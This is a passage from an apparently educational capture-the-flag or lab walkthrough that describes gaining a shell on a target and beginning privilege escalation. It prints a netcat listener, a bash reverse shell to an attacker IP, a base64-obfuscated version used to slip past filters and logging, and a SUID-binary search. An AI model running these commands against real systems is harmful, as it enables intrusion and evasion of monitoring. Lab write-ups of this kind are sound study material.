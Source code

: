 To get more flexibility we can use a reverse shell. We need to start a listener on the kali linux machine: 

```bash
nc -lvnp 4444
```

On the admin command tool we enter: 

```bash
bash -i >& /dev/tcp/10.38.1.114/4444 0>&1
```

We get a message that says *Remote connections are forbidden.*

### Bypassing Reverse Shell Restrictions

The target server restricts direct remote connections and potentially filters or monitors common reverse shell payloads like the one we used. To bypass these restrictions, we will use Base64 encoding to obfuscate the reverse shell command. The idea is to have the target decode and execute the payload locally without triggering basic signature-based filters or shell history logging.

We need to first start the listener on kali. 

```bash
nc -lvnp 4444
```

On the kali linux machine we can encode the command like this: 

```bash
echo 'bash -i >& /dev/tcp/10.38.1.114/4444 0>&1' | base64
```

As a result we get a String and we need to enter this command on the admin command tool on the browser: 

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4zOC4xLjExNC80NDQ0IDA+JjEK | base64 -d | bash
```


![reverseshell.png](/portfolio/reverseshell.png)
*Figure 12: Reverse Shell*

As we can see, we gained access via reverse shell.


### Root Flag

As we know we are currently apache which is a non root user. In this step we are going to search for files which have the **SUID** permission set. SUID binaries are a common vector for privilege escalation. If we find a SUID binary owned by root and we can manipulate or exploit it. To find these files we can use this command: 

```bash
find / -perm -u=s 2>/dev/null
```

I ran the command originally without *2>/dev/null* but got a lot of errors saying *Permission denied*.
